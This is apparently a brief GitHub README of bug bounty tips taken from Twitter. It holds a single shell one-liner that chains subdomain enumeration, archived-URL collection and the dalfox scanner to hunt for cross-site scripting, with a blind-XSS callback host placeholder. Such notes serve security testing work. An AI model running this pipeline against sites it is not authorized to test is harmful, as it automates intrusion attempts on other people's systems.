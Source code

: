# BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
